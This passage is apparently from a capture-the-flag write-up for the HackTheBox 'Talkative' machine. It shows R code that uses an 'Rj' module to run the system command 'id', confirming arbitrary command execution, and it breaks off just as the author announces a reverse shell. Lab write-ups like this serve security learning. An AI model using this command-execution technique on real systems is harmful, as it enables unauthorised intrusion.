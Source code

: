 ![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Talkative/images/Pasted%20image%2020230810161735.png)

**Let's try that:**
```r
output <- system("id", intern = TRUE)
print(output)
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Talkative/images/Pasted%20image%2020230810161747.png)

**It worked!! We can execute arbitrary system commands using the "Rj" module!!**

Let's get a reverse shell!
